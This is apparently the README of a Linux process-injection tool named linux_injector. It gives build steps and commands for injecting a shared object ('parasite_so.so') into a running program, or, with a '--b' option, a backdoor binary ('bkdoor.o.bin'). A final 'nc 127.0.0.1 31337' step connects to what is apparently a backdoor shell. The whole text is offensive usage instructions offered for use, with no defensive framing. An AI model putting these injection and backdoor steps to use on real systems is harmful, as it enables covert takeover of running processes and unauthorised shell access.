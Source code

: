 # linux_injector
# linux_injector
make
In one terminal, run: ./saruman
In another terminal, run: ./lurker `pidof saruman` `pwd`/parasite_so.so
Or 
./lurker --b  `pidof saruman` bkdoor.o.bin
then,you can run: nc 127.0.0.1 31337

